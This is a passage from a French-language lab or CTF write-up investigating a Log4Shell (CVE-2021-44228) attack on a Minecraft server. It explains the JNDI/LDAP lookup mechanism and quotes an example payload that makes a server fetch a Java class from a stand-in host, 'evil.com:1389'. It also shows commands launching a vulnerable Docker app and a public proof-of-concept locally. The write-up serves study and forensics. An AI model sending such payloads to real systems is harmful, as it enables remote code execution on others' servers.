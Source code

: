 Le port 1389 est ouvert, c'est très bon signe ! On peut essayer d'accéder au serveur web sur le port 50666 :

![image-20221116171431906](image-20221116171431906.png)



Pour continuer, il va falloir se renseigner plus précisemment sur le fonctionnement de cette CVE-2021-44228. On tombe rapidement sur cette belle explication : https://thesecmaster.com/how-does-the-log4j-vulnerability-work-in-practical/. Je vous invite à aller la lire attentivement pour comprendre ce qu'est Log4j, LDAP, JNDI...

En résumé, l'attaquant écrit un payload du style `${jndi:ldap://evil.com:1389/a}` qui est loggué en utilisant la bibliothèque Log4j. Cette dernière interprète la chaîne comme une entité externe donc elle fait une requête LDAP sur `evil.com:1389` pour récupérer une classe Java à exécuter.

J'ai envie de rejouer cette fameuse requête LDAP pour récupérer la classe Java malveillante qui a été exécutée sur le serveur Minecraft. Je décide de suivre la démarche de l'article et de rejouer une attaque en local avec Wireshark qui enregistre tout ce qui passe sur le réseau pour comprendre comment cela fonctionne.

Je vais utiliser [un docker pour avoir une app vulérable](https://github.com/christophetd/log4shell-vulnerable-app/pkgs/container/log4shell-vulnerable-app) et un [PoC trouvé sur GitHub](https://github.com/kozmer/log4j-shell-poc).

On lance trois terminaux :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ docker run –name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ python3 poc.py --userip localhost --webport 8000 --lport 9001
```

